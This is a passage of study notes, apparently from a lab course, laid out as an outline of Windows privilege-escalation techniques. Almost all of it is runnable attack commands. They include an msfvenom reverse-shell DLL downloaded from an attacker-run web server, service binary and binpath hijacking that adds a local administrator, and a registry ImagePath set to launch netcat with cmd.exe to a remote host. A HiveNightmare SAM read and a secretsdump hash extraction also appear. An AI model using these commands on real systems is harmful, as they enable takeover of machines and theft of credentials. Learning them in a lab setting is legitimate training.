     - Reviewing Path Variable
        - cmd /c echo %PATH%
    - msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
    - sudo python3 -m http.server 8080
    - curl [http://10.10.14.3:8080/srrstr.dll](http://10.10.14.3:8080/srrstr.dll) -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
    - Testing Connection
        - rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
    - Executing SystemPropertiesAdvanced.exe on Target Host
        - C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
    - gpupdate /force
- Weak permissions
    - Permissive File System ACLs
        - Running SharpUp
            - .\SharpUp.exe audit
        - Checking Permissions with icacls
            - icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe”
        - Replacing Service Binary
            - msfvenom
            - cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe”
            - sc start SecurityService
    - Weak Service Permissions
        - accesschk.exe /accepteula -quvcw WindscribeService
        - Check Local Admin Group
            - net localgroup administrators
        - Changing the Service Binary Path
            - sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add”
        - Stopping Service
            - sc stop WindscribeService
        - Starting the Service
            - sc start WindscribeService
        - Confirming Local Admin Group Addition
            - net localgroup administrators
    - Weak Service Permissions - Cleanup
        - sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe”
        - sc start WindScribeService
        - sc query WindScribeService
    - Unquoted Service Path
        - Service Binary Path
            - binary is not encapsulated within quotes
            - C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
        - Querying Service
            - sc qc SystemExplorerHelpService
        - Searching for Unquoted Service Paths
            - wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v ""”
        - Checking for Weak Service ACLs in Registry
            - accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
        - Changing ImagePath with PowerShell
            - Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443”
        - Check Startup Programs
            - Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
- Kernel Exploits
    - [https://msrc.microsoft.com/update-guide/vulnerability](https://msrc.microsoft.com/update-guide/vulnerability)
    - Checking Permissions on the SAM File
        - icacls c:\Windows\System32\config\SAM
    - Performing Attack and Parsing Password Hashes
        - https://github.com/GossiTheDog/HiveNightmare
        - .\HiveNightmare.exe
        - impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
    - Enumerating Missing Patches